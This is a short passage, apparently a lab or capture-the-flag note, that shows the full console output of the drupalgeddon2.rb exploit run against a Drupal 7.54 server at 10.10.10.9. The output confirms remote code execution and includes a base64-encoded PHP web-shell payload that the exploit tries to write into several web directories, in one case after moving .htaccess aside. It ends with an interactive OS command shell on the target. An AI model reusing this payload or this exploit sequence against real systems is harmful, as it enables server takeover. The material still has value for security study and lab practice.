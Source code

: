  - Drupalgeddon3 (April 2018) 


drupalgeddon2
```
# ./drupalgeddon2.rb  http://10.10.10.9/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo HHRJHXQA
[+] Result : HHRJHXQA
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands

drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> dir
Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of C:\inetpub\drupal-7.54

19/03/2017  09:04 ��    <DIR>          .
19/03/2017  09:04 ��    <DIR>          ..
19/03/2017  01:42 ��               317 .editorconfig
19/03/2017  01:42 ��               174 .gitignore
```